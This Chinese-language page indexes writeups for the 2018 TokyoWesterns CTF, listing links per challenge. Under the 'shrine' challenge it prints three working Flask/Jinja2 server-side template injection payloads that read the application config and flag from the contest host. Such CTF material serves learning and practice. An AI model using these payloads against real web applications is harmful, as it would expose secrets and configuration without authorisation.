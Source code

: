 比赛时间：2018/09/01 01:00:00 UTC — 2018/09/03 01:00:00 UTC

比赛地址：https://score.ctf.westerns.tokyo/

### Writeup

- **scs7** 

  https://ctftime.org/writeup/10861 by hackstreetboys

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7

- **pysandbox** 

  https://ctftime.org/writeup/10857 by hackstreetboys

  https://ctftime.org/writeup/10852 by DoubleSigma

  https://github.com/pberba/ctf-solutions/tree/master/20180901_tokyo_western/pysandbox 

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/pysandbox

- **vimshell** 

  https://ctftime.org/writeup/10860 by Lorem Checksum

  https://ctftime.org/writeup/10859 by Lattice

  https://ctftime.org/writeup/10854 by DoubleSigma

- **shrine** 

  几种payload：

  ```bash
  curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}"
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}
  ```
  https://ctftime.org/writeup/10851 by DoubleSigma

- **SimpleAuth** 

  https://fireshellsecurity.team/simpleauth/ 

  https://ctftime.org/writeup/10876 

- **load** 

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-load-pwn/

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7 

  https://gitlab.com/telnet/CTF-2018/blob/master/twctf/load/README.md

  https://ctftime.org/writeup/10863 

- **Swap Returns** 

  https://ctftime.org/writeup/10864 by 10sec

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-swap-returns-pwn/

  https://gitlab.com/snippets/1750518

- **BBQ** 

  https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/

- **Revolutional Secure Angou** 

  https://4rch4ngel6320.wordpress.com/2018/09/03/revolutional-secure-angou-writeup/

  https://ctftime.org/writeup/10867

  https://ctftime.org/writeup/10865

  https://ctftime.org/writeup/10862

  https://ctftime.org/writeup/10850

- **mixed cipher** 

  https://github.com/GabiTulba/Tokyo-Westerns-2018-Mixed-Cipher-Crypto-Write-up/blob/master/README.md

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/mixed-cipher

- **Neighbor C ** 

  https://ctftime.org/writeup/10873 by OpenToAll

- **其他**：

  [Revolutional Secure Angou](https://ctftime.org/writeup/10862) by SealTeam1

  [Tokyo Western CTF 2018 (Qualification Round) Hints for some Crypto challenges](https://github.com/nguyenduyhieukma/CTF-Writeups/tree/master/Tokyo%20Western%20CTF/2018) 

